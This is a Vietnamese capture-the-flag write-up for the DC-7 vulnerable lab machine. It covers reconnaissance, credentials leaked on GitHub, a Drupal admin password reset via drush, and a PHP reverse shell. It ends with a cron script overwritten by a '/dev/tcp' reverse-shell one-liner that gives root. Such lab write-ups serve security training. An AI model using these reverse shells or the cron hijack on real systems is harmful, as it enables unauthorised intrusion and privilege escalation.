# Extra Labs 7: DC-7 on vulhub

## Description

DC-7 là một bài lab thực hành khác được xây dựng nhằm giúp bạn tích lũy kinh nghiệm trong thế giới kiểm thử xâm nhập (penetration testing).

Mặc dù đây không phải là một thử thách quá nặng về kỹ thuật, nhưng nó cũng không hẳn là dễ dàng. Đây là một bước tiến logic từ một bản phát hành DC trước đó (tôi sẽ không nói cho bạn biết là bản nào đâu), sẽ có một vài khái niệm mới mẻ xuất hiện và bạn cần phải tự mình khám phá chúng. :-) Nếu bạn định dùng đến brute force hay tấn công từ điển, khả năng cao là bạn sẽ thất bại.

Điều bạn thực sự cần làm là tư duy "vượt giới hạn" (outside the box). Phải thực sự là một tư duy cực kỳ đột phá. :-)
## Mục tiêu cuối cùng của thử thách này là chiếm quyền root và đọc được chiếc flag duy nhất. Kỹ năng Linux và sự thành thạo với dòng lệnh (command line) là bắt buộc, cũng như một chút kinh nghiệm với các công cụ pentest cơ bản.

Với những người mới bắt đầu, Google sẽ là trợ thủ đắc lực, nhưng bạn luôn có thể nhắn tin cho tôi tại @DCAU7 để nhận được sự trợ giúp khi bị tắc nghẽn. Tuy nhiên lưu ý rằng: Tôi sẽ không đưa ra đáp án, thay vào đó, tôi sẽ gợi ý cho bạn một ý tưởng để tiếp tục tiến lên phía trước.
## Các bước thực hiện

Sử dụng lệnh netdiscover để tìm địa chỉ IP của máy mục tiêu trong mạng nội bộ:



Sử dụng nmap để quét các cổng đang mở. Kết quả quét sẽ cho thấy máy mục tiêu đang mở 2 cổng: 80 (HTTP) và 20 (SSH)

```bash
nmap -sC -sV -p- 10.130.10.142
```


Truy cập thử vào trang web của máy dc-7:



Tác giả gợi ý, tìm thông tin ở bên ngoài, em thử tra trên google tên user @DC7USER thì thấy một tài khoản github có tên đó, và có một repo, em thử điều tra sâu hơn nữa xem có thông tin nào không vào tài khoản này:



Well, em tìm thấy được tài khoản và mật khẩu dc7user:MdR3xOgB7#dW



Dùng tài khoản trên để đăng nhập vào website



Nhưng đăng nhập thất bại, thử lại đăng nhập qua ssh



Đăng nhập thành công, em kiểm tra vài thông tin cơ bản, thấy có file mbox khả nghi. Và thấy nội dung file mbox là một dạng thư, nhưng nó bị lặp lại nhưng khác ở chỗ là nó khác thời gian.





Đây là một log của Cronjob được ghi rõ ở tiêu đề mail, để kiểm tra em sẽ đọc file /opt/scripts/backups.sh xem nó có thông tin gì hữu ích không:



File backups.sh cho phép người dùng thuộc www-data truy cập, và hiển nhiên ở user hiện tại dc7user không thể chỉnh sửa nó được. Em thấy file dùng lệnh drush, em thử nghiên cứu trên google thì em có thể dùng drush để đổi được mật khẩu sql database:







Em sử dụng tài khoản kia để login và thành công



Em thấy có phần tạo file, sửa file các page, và ý định của em là chèn đoạn mã php vào để thực thi lệnh trong khi hiện tại đang sử dụng format html. Vì thế em tìm hiểu và biết rằng có thể cài đặt module vào web







Khi cài xong thì bật module lên, quay trở lại tab Content, em tạo một file reverse shell với định dạng php code:

<?php

$ip = '10.130.10.132';

$port = 4444;

$sock = fsockopen($ip, $port);

$proc = proc_open('/bin/bash', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);

?>





Vậy là chúng ta đã vào được máy nạn nhân với user www-data, và chúng ta có thể sửa được file /opt/scripts/backups.sh, vì đây là một file cron nên nó sẽ được chạy bằng root và với chu kỳ 15p.

```bash
cat << EOF > /opt/scripts/backups.sh
```

#!/bin/bash

```bash
bash -i >& /dev/tcp/10.130.10.132/4445 0>&1
```

EOF



Trong khi đó mở một terminal khác trên kali để lắng nghe tại cổng 4445



Và đến lịch chạy cron nó sẽ kết nối với máy chúng ta tại cổng 4445, giờ chỉ cần đọc flag là hoàn thành



